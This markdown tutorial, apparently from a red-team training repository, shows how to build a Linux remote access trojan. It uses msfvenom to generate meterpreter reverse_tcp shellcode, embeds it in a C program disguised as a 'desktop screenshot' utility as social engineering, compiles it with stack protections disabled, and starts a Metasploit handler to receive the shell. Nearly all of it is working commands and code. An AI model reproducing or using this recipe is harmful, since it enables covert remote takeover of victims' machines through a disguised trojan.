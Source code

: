 #### EXERCISE OBJECTIVES
Use Metasploit Framework to build shellcode in C format, then embbeded it on a C program (RAT) to be abble to control of a linux system remotely.

<br />

#### STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### SOCIAL ENGINEERING
**'Take a desktop screenshot using a C program'**.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also executes a system command (sh) that takes a screenshot of the target PC desktop using<br />
[MITRE ATT&CK T1113](https://attack.mitre.org/techniques/T1113/) (xwd package) Technic. **'(Screenshot Function Inside the C Program)'**:<br />

    system("sleep 1; xwd -root -out /tmp/ScreenShot.xwd");

<br /><br />

| DEPENDENCIE | DESCRIPTION | FUNCTION | REQUIRED |
|---|---|---|---|
| Metasploit | Metasploit Framework | Build Shellcode + Recive Connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | C Compiler | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | X Window Screenshots | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### SHELLCODING DESCRIPTION

<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

### STEP-BY-STEP (HOW-TO)

<br /><br />

#### Build shellcode folder

```
sudo mkdir shellcode
cd shellcode
```

<br />

#### Start postgresql service

```
sudo service postgresql start
```

<br />

#### Use Metasploit to Build Shellcode in C Format

```
## Build raw shellcode in C
# WARNING: Replace LHOST value by your local ip address
# WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.71 LPORT=666 -b '\x00' -a x86 --platform linux -f c -o chars.raw

```

- **'Msfvenom Syntax'**
  - -p payload name
  - -b delete nul bites from shellcode
  - -a payload arch
  - -f payload format
  - -o write output to a file 

<br />

#### See whats written inside chars.raw (optional)

```
cat chars.raw
```

<br />

#### [Parse](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/bash/parsing_data_in_bash.md) shellcode data and store it into a local bash variable

```
pa=$(cat chars.raw | grep -v "=" | tr -d '";' | tr -d '\n' | tr -d ' ')
```

<br />

#### Insert the C shellcode created into a C program

```
echo "#include<stdio.h>" > payload.c
echo "#include<stdlib.h>" >> payload.c
echo "#include<string.h>" >> payload.c
echo "" >> payload.c
echo "unsigned char buf[] = \"$pa\";" >> payload.c
echo "" >> payload.c
echo "int main()" >> payload.c
echo "{" >> payload.c
echo "  printf(\"[i] Please Wait, Taking Screenshot ..\");" >> payload.c
echo "  system(\"sleep 1; xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
echo "  printf(\"[i] Screenshot Stored Under: /tmp/ScreenShot.xwd\");" >> payload.c
echo "  system(\"sleep 1; xwud /tmp/ScreenShot.xwd\");" >> payload.c
echo "  void (*ret)() = (void(*)())buf;" >> payload.c
echo "  ret();" >> payload.c
echo "}" >> payload.c
```

<br />

#### See whats written inside payload.c (optional)

```
cat payload.c
```

<br />

#### Use GCC to compile the C program (make it executable)

```
sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

<br />

#### Start metasploit multi handler

```
# WARNING: Replace LHOST value by your local ip address
# WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD linux/x86/meterpreter/reverse_tcp; exploit'
```

<br />

#### Execute the C Program (remote machine)

```
chmod +x desktop_screenshot
sudo ./desktop_screenshot
```

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

<br />

#### Video Tutorial

[C Shellcode Linux - Video Tutorial](https://blablabla.)

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019


